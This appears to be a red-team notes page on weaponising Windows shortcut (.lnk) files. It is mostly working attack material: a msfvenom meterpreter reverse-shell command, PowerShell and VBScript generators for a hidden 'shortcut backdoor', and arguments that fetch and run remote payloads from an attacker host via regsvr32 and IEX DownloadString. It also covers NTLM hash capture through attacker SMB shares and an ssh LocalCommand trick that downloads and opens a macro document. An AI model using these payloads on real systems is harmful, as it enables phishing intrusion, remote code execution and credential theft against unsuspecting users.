 # Manual

## 01 - Custom Icons

```
C:\Windows\System32\msi.dll
C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.exe
```

## 02 - Generate Shortcut

### 2.1 - PowerShell

> [!NOTE] Characters Limit
> The **TargetPath** has a limit of 260 characters long. If you're using powershell payload then it's recommended to use `psh-cmd` format instead of `psh`, `psh-reflection`, and `psh-net`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > implant.ps1
```

TODO: Remove timestamps in the .lnk file

`$ cat pwsh_cmds.txt`

---

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/implant.sct scrobj.dll'
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/implant.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7   # 1 - Normal, 3 - Maximized, 7 - Minimized
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
```

### 2.2 - VBScript

```vbscript
Set ObjectWScript = WScript.CreateObject("WScript.Shell")

' Arguments: target executable, target arguments, shortcut file
stringTargetPath = WScript.Arguments(0)
stringTargetArguments = WScript.Arguments(1)
ShortcutFile = WScript.Arguments(2)

Set objLink = ObjectWScript.CreateShortcut(ShortcutFile)

objLink.TargetPath = stringTargetPath
objLink.Arguments = stringTargetArguments
objLink.Description = "A shortcut backdoor"
' objLink.IconLocation = "shell32.dll,21"
objLink.WindowStyle = 7
' objLink.WorkingDirectory = "C:\Users\Public"
objLink.Save
```

To execute the script with `wine` by generating a shortcut `.lnk` file.

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "C:\Windows\System32\conhost.exe" "--headless powershell.exe -nop -NonI -Nologo -w hidden -c ""IEX ((New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1'))""" shortcut_file.lnk

$ wine wscript '//Nologo' '//B' generate_lnk.vbs "C:\Windows\System32\cmd.exe" "/c powershell.exe -nop -NonI -Nologo -w hidden -c ""IEX ((New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1'))""" shortcut_file.lnk
```

## 03 - Use Cases

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "C:\Windows\System32\conhost.exe" "--headless powershell -ep bypass -f implant.ps1" shortcut_file.lnk
```

### 3.2 - Capture NTLM Relay

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "file://<attacker_IP>/@snare" "" file.lnk

$ wine wscript '//Nologo' '//B' generate_lnk.vbs "\\\\<attacker_IP>\\snare" "" file.lnk
```

Scriptlet file

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "regsvr32" "/s /u /i://<attacker_IP>/@snare scrobj.dll" file.lnk
```

TODO: Provide use cases if any (refer to the link for SSH)

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "ssh" "-i \\\\<attacker_IP>\\key.pem root@<IP>"
```

```
C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "LocalCommand=scp <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\macro_document.doc\. && %AppData%\Microsoft\Templates\macro_document.doc" <username>@<attacker_IP>
```

---
## References

### Backlinks

- [[01 - Capture Hashes via Spoof SMB Shares|Responder: Capture Hashes via Spoof SMB Shares Scenario]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit: Capture Hashes]]

- [[HTA Web Server|Metasploit: HTA Web Server]]

- [[SMB Delivery|Metasploit: SMB Delivery]]

- [[Web Delivery|Metasploit: Web Delivery]]

### Github

- [rvrsh3ll: Create-HotKeyLNK.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)

- [nobodyatall648: Malicious LNK File Abuse Hotkey Feature](https://github.com/nobodyatall648/Malicious-LNK-File-Abuse-Hotkey-Feature)

- [SS64: Shortcut](https://ss64.com/nt/shortcut.html)

- [Shellgeek: Create Shortcuts on User Desktop Using Powershell](https://shellgeek.com/create-shortcuts-on-user-desktop-using-powershell/)

- [Hull1.com: Customize Shortcut Icon](https://www.hull1.com/scriptit/2020/08/15/customize-shortcut-icon.html)

- [Simontimms: Creating a Shortcut](https://blog.simontimms.com/2021/05/10/creating-a-shortcut/)

- [Uperesia Booby Trapped Shortcut](https://www.uperesia.com/booby-trapped-shortcut)

- [Create Shortcut Using VBScript](https://think.unblog.ch/en/create-shortcut-using-vbscript/)

### Bordergate

- [Bordergate: Disguising Client Side Payloads](https://www.bordergate.co.uk/disguising-client-side-payloads/)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)

### DMCXBLUE

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Assume Breach

- [Assume Breach: Using LNK Files To Bypass Applocker](https://assume-breach.medium.com/home-grown-red-team-using-lnk-files-to-bypass-applocker-3fb1ecae291f)

- [Assume Breach: LNK Phishing Revisited In 2023](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-revisited-in-2023-364daf70a06a)

- [Assume Breach: LNK Phishing In 2023 Revisited…Again](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-in-2023-revisited-again-2b8c885b9836)

### RedSiege

- [RedSiege: SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### B4ckdoor

- [b4ckdoor: Is Macro Phishing Dead in 2024? — A Scheduled Task for Initial Access and Persistence using macro by Abusing Shortcut Files and SSH](https://b4ckdoor.medium.com/is-macro-phishing-dead-in-2024-56b7b4473a29)